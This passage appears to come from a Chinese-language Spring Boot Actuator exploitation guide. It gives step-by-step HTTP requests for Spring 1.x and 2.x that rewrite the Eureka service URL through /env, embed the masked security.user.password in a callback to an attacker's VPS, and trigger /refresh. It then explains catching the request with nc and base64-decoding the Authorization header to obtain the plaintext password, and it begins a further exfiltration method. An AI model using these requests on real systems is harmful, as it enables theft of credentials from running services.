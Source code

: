 ```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```

**步骤四： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```

**步骤五： 解码属性值**

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 \* 脱敏前的属性值明文。

### 0x03：获取被星号脱敏密码的明文 (方法三)

**利用条件：**

* 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
* 目标可以请求攻击者的服务器（请求可出外网）

**利用方法：**

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： 使用 nc 监听 HTTP 请求**
